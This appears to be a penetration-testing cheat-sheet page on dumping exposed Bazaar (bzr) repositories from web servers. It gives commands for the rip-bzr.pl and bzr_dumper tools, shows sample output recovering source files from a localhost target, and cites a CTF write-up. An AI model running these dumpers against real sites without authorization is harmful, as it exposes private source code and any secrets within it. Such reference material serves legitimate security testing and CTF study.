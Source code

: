 # Bazaar

> Bazaar  (also known as bzr ) is a free, distributed version control system (DVCS) that helps you track project history over time and collaborate seamlessly with others. Developed by Canonical, Bazaar emphasizes ease of use, a flexible workflow, and rich features to cater to both individual developers and large teams.


## Summary

* [Tools](#tools)
    * [rip-bzr.pl](#rip-bzrpl)
    * [bzr_dumper](#bzr_dumper)
* [References](#references)


## Tools

### rip-bzr.pl

```powershell
wget https://raw.githubusercontent.com/kost/dvcs-ripper/master/rip-bzr.pl
docker run --rm -it -v /path/to/host/work:/work:rw k0st/alpine-dvcs-ripper rip-bzr.pl -v -u
```

### bzr_dumper

```powershell
git clone https://github.com/SeahunOh/bzr_dumper
python3 dumper.py -u "http://127.0.0.1:5000/" -o source
Created a standalone tree (format: 2a)
[!] Target : http://127.0.0.1:5000/
[+] Start.
[+] GET repository/pack-names
[+] GET README
[+] GET checkout/dirstate
[+] GET checkout/views
[+] GET branch/branch.conf
[+] GET branch/format
[+] GET branch/last-revision
[+] GET branch/tag
[+] GET b'154411f0f33adc3ff8cfb3d34209cbd1'
[*] Finish

$ bzr revert
 N  application.py
 N  database.py
 N  static/
```

## References

- [STEM CTF Cyber Challenge 2019 – My First Blog - m3ssap0 / zuzzur3ll0n1 - March 2, 2019](https://ctftime.org/writeup/13380)